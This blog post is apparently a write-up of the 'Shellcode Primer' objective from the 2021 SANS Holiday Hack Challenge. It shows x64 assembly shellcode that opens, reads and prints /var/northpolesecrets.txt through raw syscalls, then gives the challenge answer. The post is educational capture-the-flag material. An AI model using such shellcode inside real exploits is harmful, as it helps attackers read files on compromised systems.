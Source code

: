 ```yaml
---
layout: post
title:  "6 - Shellcode Primer"
date:   2021-12-15 02:00:39 -0800
categories: kringlecon2021 objective6
---
```


This is challenge number 6 in the 2021 SANS Holiday Hack Challenge (https://2021.kringlecon.com/). Objective:

>Complete the Shellcode Primer in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.


This challenge/training is "a training program conceived by Jack Frost (yes, THE Jack Frost) to train trolls how to build exploit code, from the ground up. This will teach how to write working x64 shellcode to read a file and print it to standard output!" This primer walks through several "Hello world" type examples, and leaves the last challenge mostly up to us. I will focus on the last challenge from the shellcode primer



>For this exercise, we're going to read a specific file… let's say, /var/northpolesecrets.txt… and write it to stdout.
No reason for the name, but since this is Jack Frost's troll-trainer, it might be related to a top-secret mission!

>Solving this is going to require three syscalls! Four if you decide to use sys_exit - you're welcome to return or exit, just don't forget to fix the stack if
you return!

>First up, just like last exercise, call sys_open. This time, be sure to open /var/northpolesecrets.txt.

>Second, find the sys_read entry on the syscall table, and set up the call. Some tips:

>    The file descriptor is returned by sys_open
    The buffer for reading the file can be any writeable memory - rsp is a great option, temporary storage is what the stack is meant for
    You can experiment to find the right count, but if it's a bit too high, that's perfectly fine

>Third, find the sys_write entry, and use it to write to stdout. Some tips on that:

>    The file descriptor for stdout is always 1
    The best value for count is the return value from sys_read, but you can experiment with that as well (if it's too long, you might get some garbage after;
    that's okay!)

>Finally, if you use rsp as a buffer, you won't be able to ret - you're going to overwrite the return address and ret will crash. That's okay! You remember
how to sys_exit, right? :)

Here we define a null terminated string which will be the name of the file we need to read. We also call into our get_secret function and pop address into rcx so we can find our shellcode address and string location

{% highlight shell %}
call get_secret
db '/var/northpolesecrets.txt',0
get_secret:
pop rcx
{% endhighlight %}

Here we call sys_open as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/, and open the file path stored in rcx


>2	sys_open	const char *filename	int flags	int mode


{% highlight shell %}
; TODO: Call sys_open
mov rax, 2
mov rdi,rcx
mov rsi,0
mov rdx,0
syscall
{% endhighlight %}


Here we read the open file using sys_read as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/. I created a string to allocate a buffer on the stack where the contents of the file could be read. Without writing this buffer, I kept overwriting instructions that would cause the program to crash.


>0	sys_read	unsigned int fd	char *buf	size_t count


{% highlight shell %}
; TODO: Call sys_read on the file handle and read it into rsp
call stringbuf
db 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA',0
stringbuf:
pop rcx
push rdi
push rax
mov rax, 0
pop rdi
mov rsi, rcx
mov rdx,260
syscall
{% endhighlight %}



Next up was calling sys_write to print the file contents to the stdout for viewing. I make a call to sys_write as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

>1	sys_write	unsigned int fd	const char *buf	size_t count

{% highlight shell %}
; TODO: Call sys_write to write the contents from rsp to stdout (1)
push rsi
push rax
mov rax, 1
mov rdi,1
pop rdx
pop rsi
syscall
{% endhighlight %}


Finally call sys_exit as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

{% highlight shell %}
; TODO: Call sys_exit
mov rax, 60
mov rdi, 0
syscall
{% endhighlight %}


And we run it!

![Objective6 output](/assets/kringlecon2021/objective6/objective6_output.jpg)

We have our answer to the challenge

>Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community.

![Objective6 complete](/assets/kringlecon2021/objective6/objective6_complete.jpg)
